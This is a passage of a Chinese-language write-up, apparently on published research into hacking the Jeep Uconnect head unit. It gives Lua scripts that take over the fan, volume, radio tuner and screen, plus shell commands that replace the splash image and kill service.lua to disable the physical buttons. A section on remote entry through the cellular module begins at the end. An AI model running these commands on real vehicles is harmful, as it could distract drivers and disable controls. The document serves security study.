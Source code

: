 ```lua
require "service"
params = {}
control = {}
params.zone = "front"
control.fan = arg[1]
params.controls = control
x=service.invoke("com.harman.service.HVAC", "setControlProperties", params)
```

车机还有一大功能是控制Radio，这一点也是可以远程实现控制的。例如攻击者知道某首歌曲正在播放，他可以使用下列脚本突然调高音量：

```lua
require "service"
params = {}
params.volume = tonumber(arg[1])
x=service.invoke("com.harman.service.AudioSettings", "setVolume", params)
```

还可以通过脚本设定FM电台：
```lua
require "service"
Tuner = "com.harman.service.Tuner"
service.invoke(Tuner, "setFrequency", {frequency = 94700})
```
或是通过脚本改变当前车机屏幕的显示：
```lua
require "service"
x=service.invoke("com.harman.service.LayerManager", "viewBlackScreen", {})
x=service.invoke("com.harman.service.LayerManager", "stopBlackScreen", {})
x=service.invoke("com.harman.service.LayerManager", "viewCameraInput", {})
x=service.invoke("com.harman.service.LayerManager", "stopViewInput", {})
x=service.invoke("com.harman.service.LayerManager", "showSplash", {timeout =2})
```

或是改变屏幕显示的图片，图片格式应为png格式：
```sh
mount -uw /fs/mmc0/
cp pic.png /fs/mmc0/app/share/splash/Jeep.png
pidin arg | grep splash
kill <PID>
splash -c /etc/splash.conf &
```

通过关闭“service.lua” 进程，可以使车机上的物理按钮失效：
`kill this process: lua -s -b -d /usr/bin service.lua`

#### 蜂窝通信模块渗透
上面分析了如何利用USB进行越狱和如何利用D-Bus服务及其漏洞等两种方法实现任意代码执行，但仍然停留在物理接触车辆的攻击场景内，没有实现远程代码执行（RCE）。虽然接入 WiFi 热点并实现对车辆渗透是令人兴奋的，这也说明了可以远程实现命令执行，但很多人不会每月付费 $34.99 来开启车内WiFi模块且 WiFi 通信距离在百米之内，远程执行的限制较大。为了能够真正实现远程渗透攻击，Miller 等人研究了更为实际的蜂窝通信模块。在 Uconnect 系统中查看网络配置：


```sh
$ ifconfig
lo0: flags=8049<UP,LOOPBACK,RUNNING,MULTICAST> mtu 33192
 inet 127.0.0.1 netmask 0xff000000
pflog0: flags=100<PROMISC> mtu 33192
uap0: flags=8843<UP,BROADCAST,RUNNING,SIMPLEX,MULTICAST> mtu 1500
 address: 30:14:4a:ee:a6:f8
 media: <unknown type> autoselect
 inet 192.168.5.1 netmask 0xffffff00 broadcast 192.168.5.255
ppp0: flags=8051<UP,POINTOPOINT,RUNNING,MULTICAST> mtu 1472
 inet 21.28.103.144 -> 68.28.89.85 netmask 0xff000000
```
